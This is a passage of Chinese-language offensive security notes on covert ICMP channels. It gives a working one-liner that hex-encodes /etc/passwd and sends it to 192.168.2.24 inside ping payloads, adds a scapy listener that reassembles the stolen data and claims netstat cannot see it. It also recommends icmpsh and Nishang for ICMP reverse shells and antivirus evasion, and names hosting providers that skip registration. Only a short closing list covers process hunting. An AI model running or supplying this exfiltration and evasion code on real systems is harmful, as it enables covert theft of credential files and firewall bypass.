 ping文件的传输，一般用于突破防火墙。



Webshell后门与传统后门的差异及危害；

下面这项技术可以用于绕过防火墙进行文件的传输：

```
xxd -p -c 4 /etc/passwd | while read line; do ping -c 1 -p $line 192.168.2.24;done   # 向192.168.2.24机器上以ping的方式传递/etc/passwd文件的内网，这种方式使用netstat是无法察觉的，只有通过流量的形式进行发现。
```

监听脚本为：

```python
import sys

try:
    from scapy.all import *
except:
    print("Scapy no install, please install scapy:'pip install scapy'")
    sys.exit(0)

def process_packet(pkt):
    if pkt.haslayer(ICMP):
        if pkt[ICMP].type == 8:
            data = pkt[ICMP].load[-4:]
            print(f'{data.decode("utf-8")}', flush=True,end="",sep="")

sniff(iface="en0", prn=process_packet)
```



**工具icmpsh、nishang介绍：**

内部网络中的大多数系统位于防火墙和公司代理之后，以控制入站和出站Internet流量。防火墙可以阻止反向连接并绑定TCP连接。但是，大多数时候允许ICMP通信。因此，可以将此协议用作隐蔽通道，以便获得外壳程序并在目标主机上远程执行命令。

这是一项古者的技术，在受限的环境中太多数时候都使用它来接收外壳,但是如今,随着Red Team参与的扩散,它可以用作另种通过使用ICMP流量和绕过出口过滤来执行命令的方法。



该工具一般配合Nishang进行使用，可以进行命令的反弹。https://github.com/samratashok/nishang

nishang工具建议去使用一下，可以做一些免杀。

vps/vpn获取：

-   https://njal.la/
-   https://www.godaddy.com/，买域名与vps不需要进行备案



**进程排查思路：**

-   没有签名验证信息的讲程
-   没有描述信息的进程,进程的启动用户
-   进程的路径是否合法
-   CPU或内存资源占用长时间过高的进程
